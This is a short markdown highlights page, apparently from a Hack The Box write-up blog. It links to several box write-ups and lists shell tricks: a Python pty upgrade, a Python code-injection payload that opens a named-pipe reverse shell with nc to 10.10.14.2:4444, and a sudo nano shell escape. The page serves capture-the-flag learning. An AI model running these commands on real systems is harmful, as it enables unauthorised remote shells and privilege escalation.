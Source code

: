 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
---
```


# Writeups
[OpenAdmin](../../post/htb/openadmin)
[Postman](../../post/htb/postman)
[Craft](../../post/htb/craft)
[Sneaky - Coming Soon](../../post/htb/sneaky)
[Traverxec - Coming Soon](../../post/htb/traverxec)

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```python
__import__("os"); os.system("pwd")
```

**python code injection w/import and backpiping**

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

![test image](/img/craft/developer.png)

# Nano Escape

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
Where ^R^X is ctrl+R and ctrl+X.
